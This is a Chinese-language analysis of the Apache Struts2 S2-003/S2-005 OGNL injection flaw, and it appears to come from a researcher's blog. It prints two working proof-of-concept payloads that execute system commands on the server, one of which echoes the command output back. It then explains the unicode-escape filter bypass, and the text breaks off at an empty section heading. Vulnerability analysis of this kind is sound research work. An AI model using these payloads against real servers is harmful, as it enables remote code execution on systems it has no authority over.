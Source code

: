 
# S2-003&S2-005

XWork ParameterInterceptors bypass allows OGNL statement execution

S2-003和S2-005是同一个漏洞的本体和修复绕过。

poc:
```
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

回显poc:
```
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

这个漏洞的核心问题在于xwork在获取到传入的参数时，如果我们可以传入#号就可以访问Ognl的上下文对象，但默认#号回被过滤，导致可以用`\u0023`或`\43`来绕过。

S2-005中通过增加安全配置来禁止静态方法调用和类方法执行，然而如果我们可以访问Ognl的上下文对象，就可以通过修改配置来绕过。

## 漏洞分析

当我们传入参数时，在`xwork-core-2.1.6.jar!\com\opensymphony\xwork2\interceptor\ParametersInterceptor.class` line 186获取参数

![image.png-72.2kB][4]

并且预设了`denyMethodExecution: true`。为了能够调用方法，poc的第一部分需要将denyMethodExecution设置为False。

然后进入
```
setParameters(action, stack, parameters);
```

在解析之前，还需要进行一次判断
![image.png-128.9kB][5]

这里主要是通过正则表达式`[[\p{Graph}\s]&&[^,#:=]]*`这里主要过滤了部分特殊字符，如果我们使用unicode来代替`#`这里就成功跳过了判断。

这部分的处理主要来自于`ognl-2.7.3-sources.jar!\ognl\JavaCharStream.java` readChar函数。

当`\`之后为`u`时，则会进行专门的处理，`\u0023`就会转化为`#`

![image.png-62.4kB][6]

## Ognl 


  [1]: http://static.zybuluo.com/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: http://static.zybuluo.com/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: http://static.zybuluo.com/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: http://static.zybuluo.com/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: http://static.zybuluo.com/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: http://static.zybuluo.com/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: http://static.zybuluo.com/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: http://static.zybuluo.com/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: http://static.zybuluo.com/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: http://static.zybuluo.com/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: http://static.zybuluo.com/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: http://static.zybuluo.com/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: http://static.zybuluo.com/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png